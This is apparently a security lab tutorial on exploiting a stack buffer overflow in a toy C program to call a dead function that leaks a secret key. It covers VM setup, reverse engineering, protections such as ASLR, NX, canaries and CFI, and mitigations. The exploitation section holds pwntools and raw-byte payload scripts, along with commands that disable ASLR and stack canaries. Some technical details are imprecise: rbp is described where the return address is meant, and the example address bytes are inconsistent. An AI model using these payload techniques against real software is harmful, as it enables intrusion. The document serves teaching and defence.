



# FUNCTION JUMP
<a href='' target="_blank"></a>
 
Another common mistake is leaving code that compromises confidential information or secrets in the codebase—even if it’s not directly accessible—because the call has been commented out. For example, in the following code, the function *read_encrypt_key* is commented out, yet the function itself remains in the codebase (and, as we’ll see later, still appears in the binary).

```c
int main() {
    char input[10];
    disable_echo();

    // 1. Unsafe read of the user’s input
    printf("Input the secret: ");
    scanf("%s", input);
    
    // 2. Remove line break
    input[strcspn(input, "\n")] = '\0';
    
    enable_echo();

    // only for testing, please comment in production
    /*
    if (read_encrypt_key(input, sizeof(input)) != 0){
        printf("Error reading key \n");
    }*/

    // 3. Un-encrypt
    unencrypt_data(input);

    return 0;
}
```

## Environment Simulation
Modern system safeguards—see the following sections for more information—make it difficult (though not impossible) to exploit vulnerabilities like these. You can simulate the execution environment with a Virtual Machine. To set up the environment, you can use the provided Vagrantfile, which will create a VM with the necessary tools installed.

Before you begin, ensure that you have the following software installed on your computer: [Vagrant](https://www.vagrantup.com/) and [VirtualBox](https://www.virtualbox.org/). Please follow the official installation instructions for your operating system (Windows, macOS, or Linux) from their respective websites.

#### 1. Build and Launch the Virtual Machine
This is the main step where Vagrant will automatically build and configure your lab environment.

1. Open your terminal application (e.g., Terminal on macOS/Linux, PowerShell or Command Prompt on Windows).
2. Navigate into your project folder using the cd command.

Once you’re inside the project folder, run the following command:

Bash
```shell
vagrant up
```

Important: While the MV will be load short after, the provisioning will take several minutes the first time you run it. It has to download the base Ubuntu operating system, install all the required tools (radare2, Ghidra, Cutter, etc.). You will see a lot of text scrolling in your terminal. Wait till the terminal shows the message "Provisioning complete. You may need to reboot with 'vagrant reload'." This means the VM has been successfully created and is running.

#### 2. Login to the Virtual Machine
You will be presented with a login screen. Use the following credentials:

+ Username: vagrant
+ Password: vagrant

#### 3. Compile the Lab Binary
To compile from the terminal go to the lab folder at:
```shell
cd /home/vagrant/Desktop/cyber-lab
```
Use the make command to compile the binary:
```shell
make
```
This will create the binary file `jump_function.sh` in the same folder.

#### 4. How to Stop the VM
When you are finished, you can shut down the VM in one of two ways:

1. From the VM's Desktop: Use the menu in the top-right corner to log out or shut down the machine, just like on a normal computer.
2. From your Terminal: Go to your project folder on your main computer and run the command:
    ```shell
    vagrant halt
    ```

The next time you want to use the lab, simply run __vagrant up__ from your project folder, and the VM window will appear again.

<!--
First, we need to build the Docker image — ensure that the Docker daemon is installed on your machine:
```shell
 docker build -t jump_image .
```

Then run the container in iterative mode to open a shell for running the program:
```shell
 docker run --rm -it --privileged jump_image
```

Once in the container shell, run the program with the ASLR flag disabled for the program process.
```shell
setarch x86_64 -R ./jump_function.sh
```
-->

## Analyzing the Binary
Similar to the previous section, we can list all the strings in the binary. In this case, no key has been encoded.

When we run the program, it prompts us for a key to decrypt a message. If we enter a short text, it simply prints the message "Data Encrypted"; however, if we enter a long message, an error occurs. Since the error is a *segmentation fault*, we can deduce that the program does not limit the size of the data being input by the user.



The next step is to inspect the list of functions available in the binary. We’ll use [Cutter](https://cutter.re/) for this. After opening the jump_function.sh binary in Cutter, you can see a list of functions on the left side. Among them there is one that may be of interest: *sym.read_encrypt_key*. Note that, even though this function was commented out in the source code, it still appears in the compiled binary.


Given the earlier error and the fact that the function still exists in the binary, we might be able to call it. Since we have the source code, we know that this function prints the secret key. Without the source, you could check the Disassembly tab in Cutter and see that it calls fgets to read from a file, followed by puts to print the data.


Note that if [Ghidra](https://ghidra-sre.org) is installed, you can actually see the decompiled code, although it may be a bit difficult to read.

## Debugging
We can debug the binary using [Radare2](https://rada.re/n/). First, ensure that Radare2 is installed, then begin the debugging process with the following command:
```shell
r2 -d ./jump_function.sh
```

Inside Radare2, use the *db* command to add a breakpoint and *dc* to continue execution. For example, to place a breakpoint at the main function, run:

```shell
db sym.main
dc
```


If you want to see the disassembly while debugging, use the "v" command to enter Visual Mode.

We’ll place a second breakpoint at the echo call, which occurs right after the program reads the user input. By using Visual Mode, you can locate the address of the instruction — note that it may differ from the address shown in the screenshot. After setting the breakpoint, use *dc* to continue the program execution.


The program will prompt for user input. Here, provide a long string consisting solely of the character 'A'. Returning to Visual Mode, you will see that the memory is flooded with 'A's — even the rbp register is overwritten — potentially allowing us to call the *sym.read_encrypt_key* function.

Furthermore, simply giving the program a long input can crash it. For example, if this program was running as a remote service on a server, sending long inputs could cause the service to become unavailable.


Without the overflow, the memory appears as follows. Notice that the *rbp* register points to the previous stack frame. If the rbp pointer is overwritten, it would be possible to return to a different function or execute other instructions.


Note that the *rbp* register is used to store the base pointer of the current stack frame. If we overwrite it, we can change the return address of the function, allowing us to jump to a different function or even execute arbitrary code.

We can look for the address of the *sym.read_encrypt_key* function using he Visual Mode and looking for the function.


## Exploitation

### PayLoad
We can craft a payload that overwrites the *rbp* register with the address of the *sym.read_encrypt_key* function. This way, when the program attempts to return from the current function, it will jump to *sym.read_encrypt_key* instead.

We can use the *pwn* tool from [pwntools](https://docs.pwntools.com/en/stable/) to create the payload. First, ensure that pwntools is installed in your Python environment. Then, you can run the following script:

```python
from pwn import *
# Start the process
p = process("./jump_function.sh")
# Get the address of the read_encrypt_key function
read_encrypt_key_addr = p64(0x55555555524f)  # Replace with the actual address
# Create the payload
payload = b"A" * 18  # Fill the buffer with 'A's (adjust the size as needed)
payload += read_encrypt_key_addr  # Overwrite rbp with the address
# Send the payload
p.sendline(payload)
# Interact with the process
p.interactive()
```

Or we can print the payload directly in the terminal for the address 0x55555555524f:
```python
import sys

# Offset, confirmed with radare2.
padding = b'A' * 18

# Address, as raw bytes, with no extra nulls.
address_bytes = b'\x4f\x52\x55\x55\x55\x55'

# The newline character
newline = b'\n'

payload = padding + address_bytes + newline

# Write the raw bytes directly to the output buffer.
sys.stdout.buffer.write(payload)  
```

This will print a string of 'A's followed by the address of the *sym.read_encrypt_key* function. You can then pipe this output into the program:
```shell
python3 payload.py | ./jump_function.sh
```

This will display the secret key **super_sEC** that the *sym.read_encrypt_key* function prints.



Note that the address `0x4f\x52\x55\x55\x55\x55\x55\x55` is just an example; you need to replace it with the actual address of the *sym.read_encrypt_key* function obtained from Radare2.

## OS and Compiler Safeguards
These types of vulnerabilities use buffer overflows to modify the memory stack. Over the years, both compilers and operating systems have implemented safeguards—such as Stack Canaries (also known as Stack Guard), Address Space Layout Randomization (ASLR), the No-Execution bit, and Data Execution Prevention (DEP)—to prevent this type of attack. Although these protections make it more difficult for a malicious actors to exploit buffer overflows, they can still be bypassed or circumvented.

It is also important to note that different systems or compilers can produce executables with different safeguards using the same source code. For example, compiling the program *jump_function* on two different systems—a Linux host and a Linux Virtual Machine—can generate executables with different safeguards, as seen in the images below.

Host, with non-executable bit (nx) and canary safeguards activated:


A Linux VM, with the non-executable bit (nx) safeguard activated, but canary deactivated:


### ASLR
When a program runs, it is loaded into memory, and each variable and function is assigned a memory address. With a buffer overflow, it is possible to use these addresses to modify the program’s behavior.

When ASLR—Address Space Layout Randomization is enabled, the memory address space is randomized every time the program executes. If you inspect the memory using Radare2, you will notice that the address of *sym.read_encrypt_key* changes with each execution.

In Linux systems, ASLR can be activated or deactivated using the following command (setting the value to zero deactivates it):
```shell
sysctl -w kernel.randomize_va_space=2
```
While ASLR makes it very difficult to obtain the address of a target function for an exploit, it is not impossible. Some techniques involve information leaks or brute force.

[This post](https://securitymaven.medium.com/demystifying-aslr-understanding-exploiting-and-defending-against-memory-randomization-4dd8fe648345) provides an excellent explanation of ASLR and its possible exploitations. Combining ASLR with other safeguards improves security and makes exploiting vulnerabilities significantly more difficult.

### NX bit & DEP
The NX bit is a compilation flag that marks certain regions of memory as non-executable. When a program is loaded, some regions—such as those containing data—should not be executable. If these regions are executable, it could lead to vulnerabilities like code injection attacks, where a buffer overflow is used to write new instructions into the memory space and execute them.

This safeguard is now very common and is generally added by default during compilation. DEP is similar to the NX bit, with the difference that it is enforced by the operating system; regardless of how the program was compiled, certain memory regions will be non-executable.

### Canary
This protection improves buffer overflow security by adding control data on the stack. With stack canaries, signature values are placed on the stack, and before a function returns, these values are checked to see if they have changed. For example, if a buffer overflow allows writing up to the rbp in memory, the program checks whether the canary value has been altered before returning, rather than simply jumping to the base pointer (which may have been modified by the attack).

Although stack canaries improve security, they do not make exploitation impossible. Attackers may bypass this safeguard using brute force or exploiting information leaks. [This post](https://ctf101.org/binary-exploitation/stack-canaries/) provides more in-depth information about stack canaries.

With Canaries, instead of a segmentation fault message, a tampered canary may trigger a message indicating that a possible attack was detected.


To disable canaries during compilation (not recommended unless purely for testing), you can use the following compiler flag:
```make
gcc -fno-stack-protector ... 
```
### CFI
Control-Flow Integrity ensures that a program’s execution flow is correct by, for example, calculating the control flow graph during compilation and validating the execution against it. This validation may not always be possible, especially when some control flows are determined at runtime (such as with virtual functions in C++).


## Mitigation
The most obvious approach is to avoid leaving testing code in the source that could potentially expose confidential information or secrets. However, even this can lead to other issues, such as service unavailability if the overflow is exploited to break the program execution of a remote service.

To mitigate these problems, start by ensuring that the amount of data read is limited to the size of the buffer. This can be achieved by using functions that enforce a maximum number of bytes to be read. For instance, instead of using functions like *gets()* - which is unsafe and deprecated- or a simple *scanf("%s", buf)*, it is safer to use alternatives such as *fgets(buf, sizeof(buf), stdin)*. It is important to specify the correct buffer size in the second parameter to avoid buffer overflows.

Always verify the return values of these functions to handle cases where reading might fail or not consume as many bytes as expected.

Beyond using safe functions, validating the content of user-supplied data is crucial. If a field is expected to contain only numeric values or specific symbols, validate the data format accordingly. By limiting the size and validating the input, the risk of accidental buffer overflows is reduced.

Since manual validation can be challenging, a good practice is to use static code analyzers capable of examining source code for vulnerabilities and common issues.

Finally, compile your code with security-hardening flags. Most modern compilers offer features like stack protector or address sanitizer to help detect out-of-bounds writes or reads during development and testing.
